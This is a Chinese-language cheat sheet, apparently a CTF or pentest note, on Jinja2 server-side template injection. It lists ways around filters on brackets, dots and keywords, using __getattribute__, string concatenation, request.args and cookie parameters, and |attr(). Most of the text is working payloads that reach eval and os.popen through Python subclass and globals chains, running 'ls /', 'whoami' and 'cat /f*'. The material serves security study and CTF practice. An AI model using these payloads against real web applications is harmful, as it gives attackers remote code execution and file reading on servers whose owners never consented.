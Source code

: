 ```
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.pop('__builtins__').pop('eval')('__import__("os").popen("ls /").read()')}}       
#指定字典属性
```

`__getattribute__`绕过：

调用魔术方法本来是不用中括号的，但是如果过滤了关键字，要进行拼接的话就不可避免要用到中括号，如果同时过滤了class和中括号，可用`__getattribute__`绕过

```
{{"".__getattribute__("__cla"+"ss__").__base__}}
```

配合`request`绕过：

```
{{().__getattribute__(request.args.arg1).__base__}}&arg1=__class__
payload： {{().__getattribute__(request.args.arg1).__base__.__subclasses__().pop(376).__init__.__globals__.popen(request.args.arg2).read()}}&arg1=__class__&arg2=whoami
?name={{x.__init__.__globals__.__getitem__(request.cookies.x1).eval(request.cookies.x2)}} cookie传参：x1=__builtins__;x2=__import__('os').popen('cat /f*').read()
```

利用字典读取绕过:

我们知道访问字典里的值有两种方法，一种是把相应的键放入熟悉的方括号 [] 里来访问，一种就是用点 . 来访问。所以，当方括号 [] 被过滤之后，我们还可以用点 . 的方式来访问:

```javascript
#// __builtins__.eval()
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(59).__init__.__globals__.__builtins__.eval('__import__("os").popen("ls /").read()')}}
#等同于：
[__builtins__]['eval'](){{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("ls /").read()')}}
```



**过滤 .**

若`.`也被过滤，使用原生 JinJa2 函数 `|attr()`

即将 `request.__class__` 改成 `request|attr("__class__")`

```javascript
在python中，可用以下表示法可用于访问对象的属性
{{().__class__}}
{{()["__class__"]}}
{{()|attr("__class__")}}
{{getattr('',"__class__")}}
也就是说我们可以通过`[]`，`attr()`，`getattr()`来绕过点
```

**|attr()** **绕过：**

使用原生JinJa2的函数attr()，以下两行是等价的

```javascript
{{().__class__}}
{{()|attr('__class__')}}
payload：
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__getitem__')(65)|attr('__init__')|attr('__globals__')|attr('__getitem__')('__builtins__')|attr('__getitem__')('eval')('__import__("os").popen("whoami").read()')}}
```
